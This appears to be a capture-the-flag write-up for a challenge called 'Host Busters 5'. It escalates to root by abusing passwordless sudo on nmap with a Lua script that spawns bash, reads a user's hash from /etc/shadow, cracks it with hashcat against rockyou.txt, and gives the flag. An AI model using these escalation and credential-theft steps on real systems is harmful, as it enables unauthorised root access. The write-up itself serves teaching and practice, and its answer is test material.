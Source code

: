 ###  Host Busters 5

Get upto the point where we have shell, follow Fhost Busters 3 writeup.

```
gh0st404@a5f852d7b453:~$ sudo -l
Matching Defaults entries for gh0st404 on a5f852d7b453:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User gh0st404 may run the following commands on a5f852d7b453:
    (ALL) NOPASSWD: /usr/bin/nmap
    (ALL : ALL) NOPASSWD: /etc/init.d/ssh start
```

We can now just lookup gtfobins and escalate privileges using nmap.

```
TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF
```

We won't have input echo while using the root shell. I will provide it just for understanding.

```
root@a5f852d7b453:/# cat /etc/shadow | grep -i gh0st404
gh0st404:$6$5d63619132db26f0$4FF5/xxtU1.OPzv2OdnWmB0mG5kqyMGUCAW8crE5ZqS24v6i1sM806eh8SigsZLxeJs/EtK0RJuB.eD.wTjLp/:19568:0:99999:7:::
```

Using hashcat with mode 1800 on the hash. Given in description that this password can be found in common wordlists.

```
$ hashcat -m 1800 -a 0 hash.txt rockyou.txt
...
$6$5d63619132db26f0$4FF5/xxtU1.OPzv2OdnWmB0mG5kqyMGUCAW8crE5ZqS24v6i1sM806eh8SigsZLxeJs/EtK0RJuB.eD.wTjLp/:zaq12wsx
...
```
We get the password.

### Flag
`flag{zaq12wsx}`
